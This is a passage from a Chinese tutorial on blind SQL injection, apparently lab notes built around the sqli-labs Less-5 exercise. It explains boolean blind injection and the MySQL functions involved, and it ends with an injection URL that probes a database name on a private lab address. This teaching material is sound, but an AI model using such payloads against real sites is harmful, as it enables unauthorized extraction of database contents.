

# 四、盲注

## 4.1、代码分析
**同上3.1**


## 4.2、原理分析
有一些Web页面在输入数据时不会返回具体查询结果也不会返回SQL语句报错信息，但是查询成功和查询失败的页面不同，可以利用这一特征通过发送一系列特殊的 SQL 查询语句，不断测试返回结果来判断条件是否为真，从而反推出目标数据库中的敏感信息。盲注分为布尔盲注和时间盲注。

**1、布尔盲注**<br />**常用函数：**<br />**1.left()函数**：
```sql
left(database(),1)='s’
left(a,b)从左侧截取a的前b位，正确则返回1，错误则返回0。
例：left(database(),1)=‘s’; 前1位是否是s。
```

**2.regexp函数**：
```sql
select user() regexp 'r’
user()的结果是root，regexp为匹配root的正则表达式。
例：select database() regexp ‘s’; 匹配第一个字符是否是s。
```

**3.like函数：**
```sql
select user() like 'ro%'
匹配与regexp相似。
例：select database() like ‘s%’; 匹配第一个字符是否是s。
```

**4.substr(a,b,c)函数：**
```sql
slelct substr() XXX
substr(a,b,c)从位置b开始，截取a字符串c位长度。
例：select substr((select database()),1,1)=‘s’; 匹配第一个字符是否是s。
例：select substr((select database()),1,3)=‘sec’; 匹配前三个字符是否是sec。
```

**5.ascii()函数：**<br />将某个字符串转化为ascii值<br />例：select ascii(substr((select database()),1,1)); 直接回显115 或者是：<br />例：select ascii(substr((select database()),1,3))>110; 如果大于110，就会返回1，否则返回0。

**6.chr(数字)或者是ord(‘字母’)**<br />使用python中的两个函数可以判断当前的ascii值是多少。

判断出数据库：
```sql
http://192.168.1.8/Less-5/?id=1' and substr((select database()),1,1)='s'--+ 
```
判断数据库的第一个字母是不是“s”，是则返回正确，不是则返回错误
![image.png](../../_img/02-Web安全/01-基础知识/1671094523055-c8344a5e-1f7a-4468-815c-19e4bee0c0ee.png)
